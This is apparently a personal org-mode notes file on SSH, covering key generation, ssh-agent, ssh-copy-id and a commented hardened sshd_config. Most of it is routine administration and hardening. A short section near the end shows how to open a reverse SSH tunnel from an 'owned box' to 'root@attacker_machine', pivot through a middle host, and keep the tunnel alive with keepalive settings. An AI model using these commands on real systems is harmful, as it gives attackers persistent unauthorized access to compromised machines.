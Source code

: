 #+TAGS: ssh remote_access ssh-copy-id ssh-agent ssh-add ssh-keygen sshd


* ssh
* Files
** /etc/ssh/ssh_config 		
- the config file for the ssh client

** /etc/ssh/sshd_config 		
the config file for the ssh daemon
** /home/user/.ssh/authorized_keys  
this holds remote hosts public keys
** /home/user/.ssh/config  	
this is a way to save host configs
** /home/user/.ssh/known_hosts     
this file holds hashes for all known hosts, hosts that we have previously connected to and authorize that we trust them to be the correct machine.

** Cmds
*** ssh-copy-id
#+BEGIN_SRC sh
ssh-copy-id crito@192.168.0.5
#+END_SRC
You will be prompted for your password, if no ssh key configured
*** ssh-agent
To enable the ssh-agent
#+BEGIN_SRC sh
eval $(ssh-agent)
#+END_SRC

*** ssh-add
#+BEGIN_SRC sh
ssh-add ~/.ssh/git_eurus
#+END_SRC
*** ssh-keygen
*** ssh-copy-id
ssh-copy-id uses the SSH protocol to connect to the target host and upload the SSH user key. The command edits the authorized_keys file on the server. It creates the .ssh directory if it doesn't exist. It creates the authorized keys file if it doesn't exist. Effectively, ssh key copied to server.

It also checks if the key already exists on the server. Unless the -f option is given, each key is only added to the authorized keys file once.

It further ensures that the key files have appropriate permissions. Generally, the user's home directory or any file or directory containing keys files should not be writable by anyone else. Otherwise someone else could add new authorized keys for the user and gain access. Private key files should not be readable by anyone else.
* Description
* Usage
** ssh Key Generation
#+BEGIN_SRC sh
ssh-keygen
#+END_SRC
This will then prompt for a name for the new key

** Check an ssh keys password
#+BEGIN_SRC sh
eval $(ssh-agent)
ssh-add .ssh/id_rsa
#+END_SRC
If this key has a passphrase you will be challenged. 
To unload the key
#+BEGIN_SRC sh
ssh-add -d .ssh/id_rsa
#+END_SRC
** Generate public key from private key
#+BEGIN_SRC sh
ssh-keygen -y -f .ssh/private_key > .ssh/private_key.public
#+END_SRC

** Enable key only auth
- this will allow only key auth, no password auth
#+BEGIN_EXAMPLE
PasswordAuthentication no
#+END_EXAMPLE
this is the only variable that needs to be changed

** Secure Configuration
*** Network Options
Port 5000 - not usign the default port(22) can avoid common runs agains this port. Sometimes this is not a good idea due to certain application expecting the standard port, this should be considered.

AddressFamily inet - this only allows traffic over ipv4 not ipv6.

ListenAddress 192.168.1.0 - this will mean that the service will only listen on the local network 192.168.1.0, and not be accessable from the internet. ListenAddress 0.0.0.0 will allow the service to be accessed from all addresses.

Protocol 2 - this will only allow protocol 2 to be used, protcol 1 has known weaknesses that can allow exploitation of the service. 

X11Forwarding no - A prefered method for VNC is to tunnel it over ssh, this my be required for certain applications.

TCPKeepalive no - These are sent outside of the encrypted channel and can be spoofed, ClientAliveInterval is encrypted and is unspoofable so works as an alternative.

ClientAliveInterval 60 - secure alternative to TCPKeepalive.

ClientAliveCountMax 3 - The number of attempts that the sshd will illicit a response from the ssh client before disconnecting. Unresponsive ssh client will be disconnected after 3 minutes.

*** Key Configuration
HostKey /etc/ssh/ssh_host_rsa_key - these are the default host key locations
HostKey /etc/ssh/ssh_host_dsa_key

UsePrivilegeSeparation yes - this option splits up server processors in an attempt to prevent privilege escalation

PubkeyAuthentication yes - Use public key authentication for access. Using this option in conjunction with PasswordAuthentication no, means only uses with correct key can access the server.

AuthorizedKeysFile %h/.ssh/authorized_keys - this is the location that remote hosts public keys are kept who will have access.

*** Authentication

AllowUsers user_one user_two - White list the users that can login to the server, this is a space seperated list.

LoginGraceTime 60 - this provides a 60 second window to login to the system when prompted

PermitRootLogin no - Disable root logins completely, not save practice to be login to a server as root, use sudo or wheel group once logged in.

StrictModes yes - this forces the correct permissions of key files, must not be writable by anyone but the owner.

IgnoreRhosts yes - Ignore Rhosts authentication for .rhosts and .shorts files in RhostsRSAAuthentication or HostbasedAuthentication /etc/hosts.equiv is still used if the the HostBasedAuthentication option is not disabled.

HostBasedAuthentication no - Decides if rhosts or /etc/hosts.equiv and a public key is are allowed (host-based authentication.

IgnoreUserKnownHosts yes - This determines if the ~/.ssh/known_hosts file is to be ignored. When accessing multiple boxes on the same ip.

PermitEmptyPasswords no - Password is required for access. In this configuration a key is required.

ChallengeResponseAuthentication no - This is not required as wee aren't using login or password authentication.

PasswordAuthentication no - With this disabled a key is required to login to the server.

UsePAM no - not needed as we aren't using password authentication.

UseLogin no - as priviliege seperation is used login isn't required.

SyslogFacility AUTH - log sshd messages to the AUTH syslog facility, which stores its messages in /var/log/auth.log 
#+BEGIN_SRC sh
grep sshd /var/log/auth.log
#+END_SRC

LogLevel INFO - Defines verbosity of login. Available options SILENT, QUIET, FATAL, ERROR, INFO, VERBOSE, DEBUG, DEBUG2 and DEBUG3. INFO is default

PrintLastLog yes - When user logs in print the last login time. Good option for unauthorized access analysis.

MaxAuthTries 2 - This is the number of attemps that can be tried per connection. Failures are logged after half the number is reached.

Banner /etc/issue.net - this is the banner that greets a user at login

*** configuration
#+BEGIN_EXAMPLE
# user modified sshd_config
# See the sshd(8) manpage for details

#### Networking options ####

# Listen on a non-standard port > 1024
Port 50000

# Restrict to IPv4. inet = IPv4, inet6 = IPv6, any = both 
AddressFamily inet

# Listen only on the internal network address
ListenAddress 192.168.1.0

# Only use protocol version 2
Protocol 2

# Disable XForwarding unless you need it
X11Forwarding no

# Disable TCPKeepAlive and use ClientAliveInterval instead to prevent TCP Spoofing attacks
TCPKeepAlive no
ClientAliveInterval 600
ClientAliveCountMax 3

#### Networking options ####


#### Key Configuration ####

# HostKeys for protocol version 2
HostKey /etc/ssh/ssh_host_rsa_key
HostKey /etc/ssh/ssh_host_dsa_key

#Privilege Separation is turned on for security
UsePrivilegeSeparation yes

# Use public key authentication
PubkeyAuthentication yes
AuthorizedKeysFile      %h/.ssh/authorized_keys

# Disable black listed key usage (update your keys!)
PermitBlacklistedKeys no

#### Key Configuration ####


#### Authentication ####

# Whitelist allowed users
AllowUsers user1 user2

# one minute to enter your key passphrase
LoginGraceTime 60

# No root login
PermitRootLogin no

# Force permissions checks on keyfiles and directories
StrictModes yes

# Don't read the user's ~/.rhosts and ~/.shosts files
IgnoreRhosts yes

# similar for protocol version 2
HostbasedAuthentication no

# Don't trust ~/.ssh/known_hosts for RhostsRSAAuthentication
IgnoreUserKnownHosts yes

# To enable empty passwords, change to yes (NOT RECOMMENDED)
PermitEmptyPasswords no

# Disable challenge and response auth. Unessisary when using keys
ChallengeResponseAuthentication no

# Disable the use of passwords completly, only use public/private keys
PasswordAuthentication no

# Using keys, no need for PAM. Also allows SSHD to be run as a non-root user
UsePAM no

# Don't use login(1)
UseLogin no

#### Authentication ####


#### Misc ####

# Logging
SyslogFacility AUTH
LogLevel INFO

# Print the last time the user logged in
PrintLastLog yes

MaxAuthTries 2

MaxStartups 10:30:60

# Display login banner
Banner /etc/issue.net

# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

Subsystem sftp /usr/lib/openssh/sftp-server

#### Misc ####
#+END_EXAMPLE

** Copy new public key to remote server
- this will assume that you are connecting to a user with the same username as you
#+BEGIN_SRC sh
ssh-copy-id 78.87.56.34
#+END_SRC

- here we are specifiying which user we would like to sort the key under
#+BEGIN_SRC sh
ssh-copy-id frank@78.87.56.34
#+END_SRC

** Many keys set
Using ssh-agent with multiple keys can cause problems when login into many servers.
Each key is considered an attempt, so if a limit is set then you can end up locked out.
** Setting up ssh-agent as a sysd service
#+BEGIN_EXAMPLE
[Unit]
Description=SSH key agent

[Service]
Type=forking
Environment=SSH_AUTH_SOCK=%t/ssh-agent.socket
ExecStart=/usr/bin/ssh-agent -a $SSH_AUTH_SOCK

[Install]
WantedBy=default.target
#+END_EXAMPLE

** Adding to zshrc
- add this line to .zshrc
#+BEGIN_EXAMPLE
export SSH_AUTH_SOCK="$XDG_RUNTIME_DIR/ssh-agent.socket"
#+END_EXAMPLE
** add key/identity
#+BEGIN_SRC sh
ssh-add $KEY
#+END_SRC

** Check what identities are currently set
#+BEGIN_SRC sh
ssh-add -l
#+END_SRC

** remove key/identity
#+BEGIN_SRC sh
ssh-add -d $KEY
#+END_SRC

** remove all keys/identities
#+BEGIN_SRC sh
ssh-add -D
#+END_SRC

** Changing SSH port

vi /etc/ssh/sshd\_config

change port to 22 (or any other number) or add another line to add
another port

service sshd reload
** Disable root login
#+BEGIN_EXAMPLE
PermitRootLogin no
#+END_EXAMPLE
** Only allow ssh protocol v2
#+BEGIN_EXAMPLE
Protocol 2
#+END_EXAMPLE
** Create a reverse shell
- this would only provide one step away from the target machine
#+BEGIN_SRC sh
ssh -R 1337:localhost:22 root@attacker_machine
#+END_SRC
the cmd connects the owned box to the attacker's machine using port 1337

- using a machine between attacker and target
#+BEGIN_SRC sh
ssh -L 31337:localhost:1337 -f -N -g root@attacker_machine
#+END_SRC
now the the attacker connects from another machine to 31337 and is connected to the owned machine

- the owned machine would quickly timeout if the sshd_config hasn't been edited
#+BEGIN_EXAMPLE
TCPKeepAlive yes
ClientAliveInterval 30
ClientAliveCountMax 99999
#+END_EXAMPLE


* Lecture
* Tutorial
** Linux Academy - Server Application Requires a Secure SSH connection
Guide: [[file://home/crito/Documents/Linux/Labs/secure-ssh-lab.pdf][SSH connection]] 

* Books
* Links
[[https://www.slac.stanford.edu/comp/unix/sshGSSAPI.html][Using SSH and GSSAPI Authentication]]

